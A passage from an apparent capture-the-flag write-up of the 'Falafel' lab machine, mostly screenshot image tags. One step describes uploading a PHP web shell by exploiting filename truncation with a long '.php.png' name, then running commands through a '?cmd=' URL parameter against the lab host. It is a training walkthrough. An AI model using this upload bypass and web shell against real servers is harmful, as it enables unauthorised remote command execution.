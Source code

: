 <br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_62.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_63.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/falafel_writeup/Falafel_64.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_65.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_66.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_67.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_68.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_69.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now I can upload a malicious **.php** file to try to **Engage** the machine, with basic code that allows me to execute command remotely via the `shell_exec` function (which I hope is allowed). Once the upload was successful, I access the path where the malicious file is stored and perform some basic system enumeration commands and confirm that I am on the target machine.

```bash
touch BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB.php.png
nvim !$
cat !$
python3 -m http.server 80

# http://10.129.229.139/uploads/0321-2345_9f393f58f1f9c574/BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB.php?cmd=whoami
# hostname, ifconfig          :)
```

<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_70.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_71.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_72.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_73.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/falafel_writeup/Falafel_74.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

